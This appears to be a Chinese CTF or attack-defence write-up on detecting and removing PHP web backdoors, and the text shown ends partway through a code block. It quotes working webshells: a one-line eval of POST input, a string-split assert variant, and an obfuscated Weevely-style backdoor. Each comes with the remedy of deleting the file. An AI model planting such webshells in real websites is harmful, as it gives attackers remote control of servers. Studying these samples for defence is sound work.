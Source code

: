 

# 1. 网页后门

## 解题步骤
通过D盾找到`/door.php`下发现简单的一句话木马
```php
<?php @eval($_POST['a']);?>
```
## 防护方法
直接删除该文件


# 2. 网页后门


## 解题步骤
通过D盾找到`/admin/tools.php`发现简单的一句话木马
```php
$poc="a#s#s#e#r#t"; 
$poc_1=explode("#",$poc); 
$poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; @$poc_2($_POST['_']);
// assert($_POST['_'])
```

## 防护方法
直接删除该文件即可



# 3. 网页后门


## 解题步骤
D盾扫描出`/config/.control.php`发现混淆后门
另外`member/login.php`与`/index.php`同样也有该后门，利用方式一样

具体分析过程在这
[后门分析文章](http://www.yqxiaojunjie.com/index.php/archives/256/)
[后门分析文章2](http://rcoil.me/2017/09/Weevely%E5%90%8E%E9%97%A8%E5%88%86%E6%9E%90/)

**利用过程**
```php
/* 1. 得到原始后门*/
function door()
{
    $t = 'pre2Fss(@2Fx(@b2Fase64_deco2F2Fde(preg2F_r2Fepl2Face(array("/_/",2F"2F/-/"),array("/2F","2F+")2';
    $O = 'er"2F;$i=$m[1][02F]2F.$m[1][1];2F$h=$sl2F($s2Fs(md5(2F$i.$kh)2F2F2F,0,3));$2Ff2F=$sl(2F$ss(md5(';
    $s = 'rpos(2F$p,$h)===0)2F{$2Fs[$i]=2F"";$p=2F$ss($p,3)2F2F2F;}if(array2F_key_2Fexists($i,$s))2F{2F$s';
    $U = 'F,$ss($s[2F$i2F],0,2F$e))),$k2F)2F));2F$o2F=ob_get_contents();ob_end_2Fclean(2F);$2Fd=b2Fase64_';
    $l = '2F[$i].=$p;2F$e=strpos($s2F[2F$i2F],$f);if($e2F2F){$k=2F2F$kh.$kf;ob_start();@ev2Fal(@gzu2Fncom';
    $A = str_replace('Th', '', 'ThcreThThaThte_funThThction');
    $N = 'm2F);if($2Fq&&$m){@ses2Fsion_2Fstar2Ft();$s=&2F$_S2FESSION;$ss2F2F="substr";$sl2F="strt2F2Folow';
    $q = '"2F";for($i=0;$i<$2Fl;)2F{2Ffor($j=0;($j<$2Fc&&$i<$l2F);$j+2F+,2F$i++)2F{$o.=$t{$i}^2F$k{$j2F};';
```